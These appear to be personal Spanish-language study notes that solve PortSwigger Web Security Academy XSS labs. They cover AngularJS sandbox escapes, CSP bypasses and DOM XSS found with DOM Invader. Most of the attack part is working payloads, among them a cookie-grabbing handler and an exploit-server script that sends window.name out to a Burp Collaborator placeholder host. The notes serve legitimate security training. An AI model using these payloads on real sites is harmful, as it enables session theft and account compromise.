 ```js
//LAB: XSS sandbox AngularJS without strings - LEVEL:Expert
/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41) //Obvio luego de demorarme como 9 horas intentando resolver este gran malparido lab. 

//LAB: XSS Escaped Sandbox Angular y CSP - LEVEL:Expert
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
//este script de abajo pal server exploit derechito pa la victima
<script> location='https://ID-LAB.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; </script>

//LAB: XSS URL JS with characters Blocked
/post?postId=1&%27},x%3dx=%3e{throw/****/onerror%3dalert,1337},toString%3dx,window+'',{x:%27

//LAB: Protected with CSP markup tag
* https://ID-LAB.web-security-academy.net/my-account?email="><a href="https://EXPLOIT-SERVER.NET/exploit">Click me</a><base target='
//Y en el server exploit dejamos: 
* <script> if(window.name) { new Image().src='//BURP-COLLAB?'+encodeURIComponent(window.name); } else { location = 'https://0ace007103c2e3ab8086f3d3008a0089.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://EXPLOIT-SERVER/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27'; } </script>

//LAB: Protected with CSP & bypass CSP
/?search=<a href="#"onclick="alert('This will be allowed')">Pwned</a>

&token=;script-src-elem 'unsafe-inline'
//Codeado a URL:  el <a href></a>
%3Ca%20href%3D%22%23%22onclick%3D%22alert%28%27This%20will%20be%20allowed%27%29%22%3Etest%3C%2Fa%3E

//unsafe-inline lo que hace es permitir la ejecución de cualquier script dentro del codigo, por eso pudimos


```
### 2. XSS Based DOM:  

### Dom Invader IMPORTANTE USAR DOM Invader. 

> Using Dom Invader plug-in and set the canary to value, such as `domxss`, it will detect DOM-XSS sinks that can be exploit.

![[Pasted image 20250219162142.png]]
* Hacktricks XSS DOM: https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/dom-xss.html

> `Las vulnerabilidades basadas en DOM surgen cuando un sitio web contiene JavaScript que toma un valor controlable por el atacante, conocido como origen, y lo pasa a una función peligrosa, conocida como receptor.`

* Métodos comunes: document.URL, document.location, document.referrer, window.name, y otros métodos que manipulan el DOM.
